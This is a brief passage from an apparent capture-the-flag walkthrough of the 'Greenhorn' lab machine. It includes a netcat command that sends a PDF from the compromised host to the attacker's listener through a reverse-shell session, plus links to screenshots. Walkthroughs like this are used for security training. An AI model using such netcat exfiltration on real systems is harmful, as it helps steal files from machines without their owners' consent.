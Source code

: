 and in the `reverse shell` tab:

```
nc {your tun0 ip} {port you have chosen} < 'Using OpenVAS.pdf'
```

![PE](./Screenshots/greenhornpe3.png)

remember to ber in `/home/junior` path.

![PE](./Screenshots/greenhornpe4.png)

This is what the `.pdf` content looks like:
